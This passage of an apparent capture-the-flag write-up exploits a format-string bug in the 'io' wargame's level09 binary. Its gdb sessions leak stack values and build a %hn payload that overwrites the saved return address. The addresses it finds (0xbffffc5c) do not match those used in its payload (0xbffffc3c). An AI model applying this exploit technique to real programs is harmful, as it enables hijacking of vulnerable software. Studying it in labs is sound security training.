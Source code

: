             printf(buf);

            return 0;
    }


    level9@io:/levels$ gdb ./level09
    (gdb) r $(python -c "print 'AAAABBBBCCCC' + '%x.' * 10")
    Starting program: /levels/level09 $(python -c "print 'AAAABBBBCCCC' + '%x.' * 10")
    AAAABBBBCCCCbffffdfb.3ff.174.41414141.42424242.43434343.252e7825.78252e78.2e78252e.252e7825.[Inferior 1 (process 1688) exited normally]

We can clearly see our input buffer in memory `414141414` being `AAAA`, `4242424242` `BBBBB` and so on.

Let's get our return address again:


    (gdb) b *0x080483be
    Breakpoint 1 at 0x80483be
    (gdb) r a
    Starting program: /levels/level09 a
    Breakpoint 1, 0x080483be in main ()
    (gdb) info frame
    Stack level 0, frame at 0xbffffc60:
     eip = 0x80483be in main; saved eip = 0xb7e39a63
     Arglist at 0xbffffc58, args:
     Locals at 0xbffffc58, Previous frame's sp is 0xbffffc60
     Saved registers:
      ebp at 0xbffffc58, eip at 0xbffffc5c

So our addresses are `0xbffffc5c` and `0xbffffc5e`, let's verify that:

    (gdb) x 0xbffffc5c
    0xbffffc5c:     0xb7e39a63
    (gdb) x 0xbffffc5e
    0xbffffc5e:     0x0002b7e3

Our payload will be: "\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%8d%hn%8d%hn":

        \x3c\xfc\xff\xbf XXXX \x3e\xfc\xff\xbf %p%p%8d %hn %8d %hn
        \----------------------------------------------/

We're using `%8d` instead of `%p` for two of the values because `%p` can't be controlled with a number modifier, but %d can. Let's try our payload:

    (gdb) r $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%8d%hn%8d%hn')
    Starting program: /levels/level09 $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%8d%hn%8d%hn')
    Breakpoint 1, 0x080483e9 in main ()
    (gdb) x 0xbffffc3c
    0xbffffc3c:     0xb7e39a63
    (gdb) ni
    0x080483ee in main ()
    (gdb) x 0xbffffc3c
    0xbffffc3c:     0x002d0023

We wrote the `0x23` first, at the lower part of the address, why is that? Because it prevents any second-writing to overflow what we previously wrote.
